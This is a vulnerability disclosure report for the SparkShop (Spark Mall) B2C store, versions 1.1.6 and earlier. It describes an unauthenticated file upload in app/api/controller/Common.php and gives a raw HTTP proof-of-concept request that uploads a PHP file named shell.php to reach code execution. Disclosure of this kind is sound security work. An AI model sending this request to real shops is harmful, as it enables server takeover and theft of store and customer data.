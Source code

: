 ### BUG_Author:

Rui Jie

### Affected version:

<=1.1.6

### Vendor:

Nanjing Xingyuantu Technology Co. 

SparkShop(Spark Mall) B2C Mall
### Software:

https://gitee.com/sparkshop/sparkshop


https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php
### Description:
 A vulnerability categorised as critical has been discovered in SparkShop (Spark Mall) B2C Mall. This affects sections of the unauthorised interface file app/api/controller/Common.php. Manipulation of the parameter file results in arbitrary file uploads



![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.


POC
```
POST /api/Common/uploadFile HTTP/1.1

Host: 127.0.0.5

User-Agent: python-requests/2.28.1

Accept-Encoding: gzip, deflate

Accept: */*

Connection: keep-alive

Content-Length: 166

Content-Type: multipart/form-data; boundary=5f0c1dda2c37ae232c96415ad53dc96b

  

--5f0c1dda2c37ae232c96415ad53dc96b

Content-Disposition: form-data; name="file"; filename="shell.php"

  

<?=phpinfo();?>

--5f0c1dda2c37ae232c96415ad53dc96b--
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121552216.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121557807.png)


We achieved RCE by uploading a malicious php script

